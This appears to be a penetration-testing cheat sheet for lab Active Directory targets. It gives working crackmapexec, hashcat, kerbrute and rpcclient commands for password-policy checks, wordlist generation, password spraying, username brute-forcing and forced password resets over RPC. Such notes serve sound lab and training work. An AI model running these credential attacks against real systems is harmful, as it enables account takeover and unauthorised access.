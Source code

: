 **crackmapexec**

Check Password policy and if account lockout threshold is None
```
crackmapexec  smb 10.10.10.172 --pass-pol -u '' -p 
```
Create custom wordlist for bruteforce
```
# put initial usernames and other details found in enumeration in checklist
# add some months and seasons to it

# append year to words
for i in $(cat wordlist.txt); do echo $i; echo ${i}2019; echo ${i}2020; done; 

# append ! to words
for i in $(cat wordlist.txt); do echo $i; echo ${i}\!; done > t  

# generate more out of it
hashcat --force --stdout wordlist.txt -r /usr/share/hashcat/rules/best64.rule 
hashcat --force --stdout wordlist.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule

# filter with length more than 7
hashcat --force --stdout wordlist.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7' > t
```
bruteforce to try each password with each user.
```
crackmapexec smb 10.10.11.158 -u user.txt -p pass.txt --continue-on-success  
```
**Kerbute Username Bruteforce**

[Kerbute](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3) [Download](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64)
```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64  
chmod +x kerbrute_linux_amd64 
```
https://github.com/danielmiessler/SecLists/blob/master/Usernames/cirt-default-usernames.txt

```
./kerbrute_linux_amd64 userenum /opt/SecLists/Usernames/cirt-default-usernames.txt --dc dc01.manager.htb -d manager.htb
```

##### Reset Password

**RPCclient**

This is very useful when you need to reset password of user form linux since you dont have shell on windows machine
```
# use the command setuserinfo2

└─$ rpcclient -U "support" 10.10.10.192 
Password for [WORKGROUP\support]:

# note password not machin policy will give such error

rpcclient $> setuserinfo2 audit2020 23 '0xdf'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION

# password that is according to policy will be accepted silently

rpcclient $> setuserinfo2 audit2020 23 '0xdf!!!'
rpcclient $> 
```